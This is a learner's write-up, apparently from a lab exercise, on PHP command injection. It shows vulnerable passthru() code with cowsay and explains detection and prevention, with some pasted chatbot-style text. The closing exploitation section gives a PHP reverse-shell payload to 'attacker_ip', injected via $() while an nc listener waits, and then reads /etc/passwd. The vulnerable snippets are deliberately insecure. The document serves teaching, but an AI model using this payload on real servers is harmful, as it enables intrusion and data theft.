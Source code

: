 Command injection occurs when web applications execute system commands using unsanitized user input, enabling attackers to run arbitrary OS commands.

  The provided example involves a PHP script using the passthru() function to run the cowsay command with user-controlled parameters, illustrating a security flaw.

Attackers can exploit inline bash commands $(your_command) within input fields to execute malicious commands on the server.

Common commands used in exploits include whoami, id, ifconfig/ip addr, uname -a, and ps -ef, which help attackers gather system information.

Successful exploitation allows attackers to enumerate files, identify users, and gain information about the server environment, potentially escalating their access.

Proper input validation, parameter sanitization, and avoiding direct command execution with user input are critical to prevent command injection.

The scenario encourages exploiting the vulnerability to answer several security questions related to system configuration, user accounts, and installed software.
example of the code is

```bash
<?php
    if (isset($_GET["mooing"])) {
        $mooing = $_GET["mooing"];           // Get the value of the "mooing" parameter from the URL query string
        $cow = 'default';                    // Set a default cow figure
        
        if(isset($_GET["cow"]))
            $cow = $_GET["cow"];             // If the "cow" parameter is provided, use its value instead
        
        passthru("perl /usr/bin/cowsay -f $cow $mooing");  // Run a Perl program (cowsay) that displays the message with the specified cow figure
    }
?>
```
ALSO THERE IS ONTHER EXAMPLE OF THE CODE:
```bash
<?php
if (isset($_GET['commandString'])) {
    $command_string = $_GET['commandString'];

    try {
        passthru($command_string);
    } catch (Error $error) {
        echo "<p class=mt-3><b>$error</b></p>";
    }
}
?>
```
Line-by-Line Breakdown
`if (isset($_GET['commandString'])) {`:
Checks if a parameter called `commandString` was passed via the URL query string.

`$command_string = $_GET['commandString'];`:
Stores the value of that parameter in the variable `$command_string`.

`try { passthru($command_string); }`:
Attempts to execute the command using `passthru()`, which runs the command and outputs the result directly.

`catch (Error $error) { ... }`:
If an error occurs during execution (like an invalid command or PHP runtime error), it is caught and printed inside a paragraph.

How to detect:

To detect command injection vulnerabilities like in your PHP example, here are practical steps and signs to look for:

How to Detect Command Injection Vulnerabilities

Understand the code context

Look for places where user input `($_GET, $_POST, etc.)` is used directly in functions that execute system commands, like `passthru(), exec(), shell_exec(), system(), or backticks` (`command`).

Try injecting special shell characters via inputs

Test the URL or form fields by adding characters that can break out of the intended command argument, such as:
`
; (semicolon)
&&
| (pipe)
$(), ` (backticks), or other command substitution syntax
`
For example, if the parameter was mooing, try something like:

`CODE_BLOCK_0
or
CODE_BLOCK_1
`
If the output includes results from commands like `ls, whoami`, or other unexpected outputs, the app is likely vulnerable.

2.Check application responses:

If injecting shell meta-characters changes the output or causes errors revealing command output, that indicates vulnerability.

Sometimes error messages or unusual behavior after injection attempts hint at command injection.

Review server logs:

Look for suspicious requests with injected commands or unexpected parameters.

Use automated security tools

Tools like OWASP ZAP, Burp Suite, or command injection-specific scanners can automate testing for command injection.

Static code analysis

Use code analysis tools or manually review source code for dangerous patterns such as:

User input passed directly to `passthru(), exec(), system(), etc`.

Missing input validation or escaping before running shell commands

Summary: To detect injection for the PHP code you shared:

Try to modify the mooing or cow parameters by appending shell commands using characters like `; or &&`.

Observe if the output shows the effect of injected commands.

Check if the application behavior changes or errors out in suspicious ways.

If you want, I can help you draft specific test inputs for detection or explain how to fix the vulnerability. Would you like that?

Prevention

Preventing command injection in PHP code like yours is crucial for security. Here are effective ways to prevent command injection in your script:

How to Prevent Command Injection in Your PHP Code

Avoid directly passing user input to shell commands

Wherever possible, do not use functions like ``passthru(), exec(), system()`` with raw user input.

Validate and sanitize inputs strictly

Whitelist allowed values for parameters like cow. For example, prepare a list of allowed cow files and reject anything not in that list.

For text messages (mooing), restrict or sanitize input to remove shell-special characters.

Use escapeshellarg or escapeshellcmd

Use `escapeshellarg()` to escape parameters that will be passed to the shell, which safely wraps them in quotes and escapes special characters.
Example:
```
php
$mooing = escapeshellarg($_GET["mooing"]);
$cow = escapeshellarg($cow);
passthru("perl /usr/bin/cowsay -f $cow $mooing");
```
However, be careful if $cow is restricted to specific filenames because escapeshellarg will quote the whole string (which might break the `-f` option if not handled properly).

Use safer alternatives

Instead of running commands directly, consider using a PHP library or internal logic to do what you want without shell calls.

Or run shell commands in a way that doesn’t allow arbitrary input, for example by:

Restricting $cow to a predefined set (whitelist)

Encoding or sanitizing $mooing

Example of whitelisting cow types:

```
php
$allowed_cows = ['default', 'dragon', 'tux', 'ghostbusters']; // allowed cows
$cow = 'default';

if (isset($_GET['cow']) && in_array($_GET['cow'], $allowed_cows)) {
    $cow = $_GET['cow'];
}

$mooing = escapeshellarg($_GET['mooing']);
passthru("perl /usr/bin/cowsay -f $cow $mooing");
```
Disable dangerous PHP functions (optional)

If possible, disable dangerous functions like `exec, passthru` in your PHP configuration, especially if they aren’t needed.

This is a broader measure but improves overall security.

Summary:

Never trust user input directly in shell commands.

Whitelist allowed values for known parameters.

Use escapeshellarg() to safely escape arguments.

Validate and sanitize every input rigorously.

Prefer safer ways without shell execution when possible.

If you want, I can help you improve your original code with these protections implemented. Would you like me to?

here are some other commands you may want to try to test for command injection on the web application:



```bash
whoami
id
ifconfig/ip addr
uname -a
ps -ef
```
EXPLOITATION TIME:

First is to create a reverse shell on the terminal for command execution in that case I shall use a cheat sheet i.e [cheat-sheet](swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#ruby)

where we paste this ```$(php -r '$sock=fsockopen("attacker_ip",port_NO);exec("/bin/sh -i <&3 >&3 2>&3");')``` ,also this command may work ```php -r '$sock=fsockopen("attacker_ip",port_NO);exec("/bin/sh -i <&3 >&3 2>&3");'```

on the command prompt on the web while we listen using nc port listener in order to access the shell.

After having an interactive shell we can then run several commands that is:

```bash
whoami  # shows the user

ls  #shows the available files and directories on that user

cat /etc/passwd  # shows the available users and there privileges

cat /etc/os-release  # shows the os version running on the web server
```





















































